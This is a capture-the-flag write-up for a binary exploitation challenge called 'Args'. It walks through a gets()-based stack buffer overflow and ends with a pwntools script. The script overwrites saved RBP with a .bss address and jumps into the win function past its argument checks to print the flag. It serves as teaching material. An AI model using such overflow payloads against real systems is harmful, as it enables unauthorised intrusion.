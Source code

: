 # Arg
---

### Challenge Description

Specific arguments... Seems easy

nc challenge2.lagncrash.com 10001

[Args.zip](https://github.com/caprinux/LagNCrash/files/6129814/Args.zip)

---

### Solution

So we are given the ELF binary and the source code. Checking the binary, we get:

```
$ pwn checksec argssource

[*] '/media/sf_Kali_Linux/argssource'

    Arch:     amd64-64-little

    RELRO:    Partial RELRO

    Stack:    No canary found

    NX:       NX enabled

    PIE:      No PIE (0x400000)

```

Opening the source code, we get: 

```C
#include <stdio.h>
#include <unistd.h>
int main(int argc, char** argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	vuln();
}

int vuln(void){
	char buf[128];
	gets(buf);
	return 0;
}

int win(long a, long b, long c){
	if(!(a == 0xdeadbeef)) return 1;
	if(!(b == 0xcafebabecafebabe)) return 1;
	if(!(c == 0xd00df00dd00df00d)) return 1;

	char buf[64];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
	printf("Run this on the server.\n");
	exit(0);
	}

	fgets(buf,64,f);
	printf(buf);

	return 0;	
}
```

As you can see, from the checksec, this file does not have a canary unlike Baby, but NX is enabled. 

We go on to read the source code, we see that the executable goes from the main() to the vuln() and takes an input with the gets call, but buffer only holds 128 bytes of input, then it returns, allowing us to overflow this input.

Furthermore, from the win function, we can see that flag.txt is being read from fopen, and then its copied into buf with fgets, and printed with printf.

Let's further analyse the binary in gdb-gef

We disassemble the win function to see the segments of the fgets fopen printf

```gdb

   0x00000000004007c8 <+87>:	mov    esi,0x4008b4

   0x00000000004007cd <+92>:	mov    edi,0x4008b6

   0x00000000004007d2 <+97>:	call   0x400610 <fopen@plt>

   0x00000000004007d7 <+102>:	mov    QWORD PTR [rbp-0x8],rax

```

As we can see from here, the file path is loaded into fopen, and the file is saved in rax, then rbp-0x8.

```

```gdb
   0x00000000004007f6 <+133>:	mov    rdx,QWORD PTR [rbp-0x8]

   0x00000000004007fa <+137>:	lea    rax,[rbp-0x50]

   0x00000000004007fe <+141>:	mov    esi,0x40

   0x0000000000400803 <+146>:	mov    rdi,rax

   0x0000000000400806 <+149>:	call   0x4005d0 <fgets@plt>

```

Basically, fgets will write the flag into an offset of RBP-0x50

```
   0x000000000040080b <+154>:	lea    rax,[rbp-0x50]

   0x000000000040080f <+158>:	mov    rdi,rax

   0x0000000000400812 <+161>:	mov    eax,0x0

   0x0000000000400817 <+166>:	call   0x4005b0 <printf@plt>

```

And printf will print whatever is in RBP-0x50 which is our flag.

Hence now we know we want to overwrite the previous RBP address to a writeable memory, such that when leave function is passed, our rbp will be our overwritten writeable memory.

However, where can we find writeable memory that we can set our rbp to? We can set our RBP to the uninitialized BSS segment of the memory.

To obtain the address of the bss segment, we can run the following command

```
$ objdump -x argssource | grep bss
 24 .bss          00000010  0000000000601070  0000000000601070  00001070  2**4

0000000000601070 l    d  .bss	0000000000000000              .bss

0000000000601078 l     O .bss	0000000000000001              completed.6982

0000000000601070 g     O .bss	0000000000000008              stdout@@GLIBC_2.2.5

0000000000601080 g       .bss	0000000000000000              _end

0000000000601070 g       .bss	0000000000000000              __bss_start
```
Here, we get some address of bss functions, but I wasn't sure whether to write to the start or the end. Hence, I trial and error with both __bss_start and _end .

Opening the argssource file with Ghidra, we go to the win function and we can see the address. We skip all the parameter checks and copy the address of the win function right before flag.txt is opened.

win_addr_before_fopen = 0x00000000004007c8

Now that we have everything, we can craft our exploit.

```
from pwn import *

win_addr_before_fread = 0x00000000004007c8
vuln_offset = 128
bss_segment = 0x0000000000601080

payload = b"A" * vuln_offset + p64(bss_segment) + p64(win_addr_before_fread)
p = remote('challenge2.lagncrash.com', 10001)
p.sendline(payload)
print(p.recv())
```

We obtain the flag.

```
LNC{C5U_H4V3_7H3_GADGETS}
```

_p.s. this was probably not the intended way of solving args but welp_


